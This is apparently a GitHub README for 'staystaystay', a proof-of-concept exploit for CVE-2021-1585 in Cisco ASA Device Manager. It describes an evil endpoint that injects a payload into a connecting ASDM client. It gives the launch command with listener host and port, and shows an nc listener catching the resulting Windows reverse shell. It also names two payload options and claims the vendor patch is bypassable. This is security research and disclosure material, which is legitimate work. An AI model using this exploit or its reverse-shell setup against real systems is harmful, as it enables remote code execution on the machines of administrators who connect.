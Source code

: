 # staystaystay

`staystaystay` is a proof of concept exploit for [CVE-2021-1585](https://nvd.nist.gov/vuln/detail/CVE-2021-1585), a man in the middle or evil endpoint RCE issue affecting Cisco ASA Device Manager (ASDM). The issue was originally discovered by [Malcolm Lashley](https://gist.github.com/mlashley/7d2c16e91fe37c9ab3b2352615540025) and disclosed in the summer of 2021. However, at the time I was looking at this, it was unpatched in the latest version (ASDM 7.17(1)), I stumbled upon this independently.

Cisco "fixed" this in ASDM 7.18(1.152). I say "fixed" because this exploit still works just fine. The user will just need to click "Yes". See a video below.

Attackers can configure two types of payloads to obtain a reverse shell to the victim:

* jjs.exe based (a file touches disk - and this has recently been caught by Windows Defender)
* [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine) based

If a victim connects their ASDM to `staystaystay` then it will inject the configured payload resulting in a reverse shell. The `jjs` reverse shell can be caught with a typical `nc` listener (or even Metasploit, if you'd like). The Longtime Sunshine option requires the attacker use that framework.

As an example, the following command will start `staystaystay` on port 8443 with the `jjs` payload:

```
./staystaystay -j --lhost 10.0.0.2 --lport 1270 --https_port 8443
```

Once the victim connects to 8443, a reverse shell will be generated to 10.0.0.2:1270:

```
albinolobster@ubuntu:~$ nc -lvnp 1270
Listening on 0.0.0.0 1270
Connection received on 10.0.0.26 50283
Microsoft Windows [Version 10.0.19042.1645]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Cisco Systems\ASDM>whoami
whoami
desktop-1hug9pt\albinolobster

C:\Program Files (x86)\Cisco Systems\ASDM>
```

The following video contains an example of exploition with Longtime Sunshine:

* https://www.youtube.com/watch?v=07VO2JGTWR8

The following video demonstrates the attack against a patched version:

* https://www.youtube.com/watch?v=ySgbHClk9HE

An AttackerKB write up can be found here:

* https://attackerkb.com/topics/0vIso8fLhQ/cve-2021-1585/rapid7-analysis

## Credit

* Taylor Swift - [Acoustic version](https://www.youtube.com/watch?v=JbiTT82XAo0&t=2423s)
